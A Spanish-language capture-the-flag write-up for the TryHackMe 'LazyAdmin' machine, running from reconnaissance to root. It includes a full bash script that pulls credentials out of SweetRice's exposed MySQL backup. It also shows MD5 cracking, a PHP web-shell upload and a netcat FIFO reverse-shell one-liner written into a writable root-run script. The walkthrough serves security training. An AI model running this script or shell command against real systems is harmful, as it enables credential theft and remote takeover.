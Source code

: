 ```yaml
---
title : Lazy Admin
published : True
---
```

<p></p>
<p>Name : LazyAdmin</p>
<p>Url : <a href="https://tryhackme.com/room/lazyadmin"> LazyAdmin</a></p>
<p></p>

<h2><font color="white"><center># lazyAdmin</center></font></h2>
* <p>Empezamos con el reconocimiento de la maquina</p>
> ping -c 1 IP
<img src="/imgs/lazyAdmin/lazyAdmin0.jpg"/>
<br>
<br>
`Vemos que es una maquina Linux por el ttl que es de 63, por proximidad hacia 64 podemos decir que la maquina es Linux.`
* <p>Empezamos con el reconocimiento de puertos.</p>
> nmap --min-rate 5000 -sV -sS -Pn --open 10.10.56.176 -o ports
<img src="/imgs/lazyAdmin/lazyAdmin1.jpg"/>
<br>
<br>
`Podemos observar que tiene el puerto ssh y http abierto.`
* <p>Ahora enumeraremos los directorios activos de la pagina web</p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.56.176/FUZZ
<img src="/imgs/lazyAdmin/lazyAdmin2.jpg"/>
<br>
<br>
`Vemos que hay un directorio llamado content.`
* <p>Miremos que trae ese directorio.</p>
<img src="/imgs/lazyAdmin/lazyAdmin3.jpg"/>
<br><br>
`Vemos que en su sistema usa SweetRice el cual miraremos si tiene vulnerabilidades.`
* <p>Miremos si tiene vulnerabilidades el sistema que tiene en uso.</p>
> searchsploit sweetrice
<img src="/imgs/lazyAdmin/lazyAdmin4.jpg"/>
* <p>Mirando bien tenemos un exploit llamado Backup Disclosure que recopila información, de una base de datos mySql.</p>
<img src="/imgs/lazyAdmin/lazyAdmin5.jpg"/>
<br><br>
`Lo que podemos observe es que hay una base de datos filtrada en una url en este caso http://localhost/inc/mysql_backup`
* Veamos si existe el archivo filtrado.\
<br>
<img src="/imgs/lazyAdmin/lazyAdmin6.jpg"/>
<br><br>
`Ahora si vemos el archivo descargado podemos ver que hay un usuario llamado "manager" y la contraseña encriptada en MD5`
<p>Por cierto pensé en la gente y desarrolle este <font color="red">exploit</font> el cual te automatiza todo.</p>

```bash
#!/bin/bash

ctrl_c(){
	echo -e "[\e[31;1m!\e[0m] Saliendo\n"
	exit 2
}
trap ctrl_c INT

function init(){
	echo -e "\e[31;1m[!] Cheking if exist url : $1\e[0m"

	if test """$( curl -s -X GET "http://$1/content/inc/mysql_backup/" -i | head -n 1 | cut -f2 -d' ' )""" -eq 200;then
		echo -e "\e[37;1m [+] Succes url database...\e[0m"
		echo -e "\e[37;1m [!] Cheking database exist into url\e[0m"
		curl -s -X GET "http://$1/content/inc/mysql_backup/" | tr '>' '\n' | grep -E '".*?"' | grep "href" | grep -E "*.sql" | cut -f2 -d'"' > .nameFile.tmp
		echo -e "\e[37;1m [+] Name succes... \e[0m"
		echo -e "\e[37;1m [!] Extracting file db\e[0m"
		curl -s -X GET "http://$1/content/inc/mysql_backup/$(cat .nameFile.tmp)" > database.sql
		echo -e "\e[37;1m [+] Ok data base extract in file -->> database.sql\e[0m"
		echo -e "\e[37;1m [!] Extracting users and passwords of file\e[0m"
		echo -e "\n\e[37;1m[ Credentials ]"
		echo -e "\e[37;1m------------------------"
		cat database.sql  | tr ':' '\n' | grep 'passwd' -A2 -B3 | tr -d '\\' | grep -E '".*?"' | grep -vE "pass*" > .credentials.tmp
		echo -e "Username : $(cat .credentials.tmp | head -n 1)"
		echo -e """password : $(cat .credentials.tmp | head -n 2 | awk "NR==2")"""
		echo -e "-----------------------------"
		echo -e "\n[ all information ]"
		echo -e "--------------------------"
		cat .credentials.tmp
		echo -e "------------------------\n"
		echo -e "if there a error check file database.sql for verify."
		echo '' 
		rm -rf .nameFile.tmp
		exit 0
		
		
	else
		if test """$(curl -s -X GET "http://$1/inc/mysql_backup/" -e | head -n 1 | cut -f2 -d' ')""" -eq 200; then
			echo -e "\e[37;1m Succes url database \e[0m"
			echo -e "\e[37;1m Cheking database into url\e[0m"
			curl -s -X GET "http://$1/content/inc/mysql_backup/" | tr '>' '\n' | grep -E '".*?"' | grep "href" | grep -E "*.sql" | cut -f2 -d'"' > .nameFile.tmp
			echo -e "\e[37;1m [+] Name succes... \e[0m"
  	 	        echo -e "\e[37;1m [!] Extracting file db\e[0m"
			curl -s -X GET "http://$1/inc/mysql_backup/$(cat .nameFile.tmp)" > database2.sql
			echo -e "\e[37;1m [!] Extracting users and passwords of file\e[0m"
			echo -e "[ Credentials ]"
			echo -e "\e[37;1m------------------------"
	               	cat database.sql  | tr ':' '\n' | grep 'passwd' -A2 -B3 | tr -d '\\' | grep -E '".*?"' | grep -vE "pass*"
        	        echo -e "------------------------"
	                echo -e "if there a error check file database.sql for verify."
			rm -rf .nameFile.tmp
			exit 0
		else
			echo -e "\e[37;1m Error exploit\e[0m"
		fi
	fi
	
	
}

if test -z $1;then
	echo -e "\e[31;1m Not url declare\e[0m"
	exit 5
fi
init $1


```
* <p>Que por cierto si lo ejecutamos...</p>
<img src="/imgs/lazyAdmin/lazyAdmin7.jpg"/>
<br><br>
<p>Vemos el usuario y la contraseña....jejej.</p>
* <p>Ahora desencriptar el hash anteriormente.</p>
> john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
<img src="/imgs/lazyAdmin/lazyAdmin8.jpg"/>
<br><br>
<p>contraseña mas débil jejeje.</p>
<p>Ahora ya podemos ingresar al login de la pagina web.</p>
<img src="/imgs/lazyAdmin/lazyAdmin9.jpg"/>
<p>Ahora nos vamos al apartado de anuncios.</p>
<img src="/imgs/lazyAdmin/lazyAdmin10.jpg"/>
<p>Ahora solo colocamos un codigo php que me de una web Shell. </p>
<img src="/imgs/lazyAdmin/lazyAdmin11.jpg"/>
* <p>Ahora vamos a la url, donde se cargo el archivo php en este caso es en  <font color="yellow">http://localhost/content/inc/ads/( nombre de archivo).php</font></p>
<img src="/imgs/lazyAdmin/lazyAdmin12.jpg"/>
* <p>Nos ponemos en escucha en nuestra terminal y recargamos la pagina web anterior, de esta forma ganaremos una web Shell</p>
<img src="/imgs/lazyAdmin/lazyAdmin13.jpg"/>
* <p>Enumeramos el sistema para ver como podemos escalar privilegios.</p>
<img src="/imgs/lazyAdmin/lazyAdmin14.jpg"/>
<br><br>
`En la imagen podemos ver que tenemos permisos para ejecutar perl, un archivo llamado /home/itguy/backuo.pl que a su vez ejecuta otro archivo llamado /etc/copy.sh el cual vemos que tenemos permisos de escritura`
* Como el archivo /etc/copy.sh, en su contexto vemos que el archivo tiene una estructura para lanzar una seudo consola por una ip y un puerto, lo que haré sera remplazar la ip y el puerto y ejecutar el archivo.
> echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc TuIp 5555 >/tmp/f"  > /etc/copy.sh
<img src="/imgs/lazyAdmin/lazyAdmin15.jpg"/>
<p>OK maquina vulnerada.</p>


